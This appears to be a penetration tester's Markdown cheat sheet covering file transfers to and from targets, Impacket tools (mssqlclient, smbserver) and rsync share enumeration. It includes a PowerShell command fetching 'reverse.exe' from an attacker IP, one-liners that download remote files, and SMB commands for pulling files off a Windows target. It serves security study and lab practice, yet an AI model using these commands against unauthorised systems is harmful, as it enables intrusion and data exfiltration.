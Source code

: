 Powershell wget equivalent: `powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe`

`python3 -m uploadserver` or `http.server`

`php -S [IP:port]`

Impacket smbserver
`smbserver.py`
	- `impacket-smbserver -smb2support CompData [directory for server location]`
	- `CompData` is the name that the target will use to refer to the share.
	- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`


### File Transfers with Code

Python
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("[URL to file]", "[output]")'`

PHP
- `php -r '$file = file_get_contents("[file URL]"); file_put_contents("[output]",$file);'`


# IMPACKET Modules

`/home/kali/Documents/impacket/examples`


#### mssql
- add `-windows-auth` for a windows machine
- `python3 mssqlclient.py [user]@[target]`
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual-enumeration
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
	- `SELECT is_srvrolemember('sysadmin');` returned `1` meaning `true`

#### smbserver
- `smbserver.py`
	- `impacket-smbserver -smb2support CompData [directory for server location]`
	- `CompData` is the name that the target will use to refer to the share.
	- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`

#### PSexec and SMBexec

# Common Services

See `Password Attacks` for brute forcing

RSYNC, 873
- service for locally and remotely copying files
- `nc -nv [IP] 873` to find shares
- `rsync -avz --list-only rsync://[IP]/` add a `[share]` at the end to enumerate a specific share
-  to download files, remove `--list-only` and add the `/share/file` at the end of the address and a `/local/destination`
- use rsync over ssh https://phoenixnap.com/kb/how-to-rsync-over-ssh
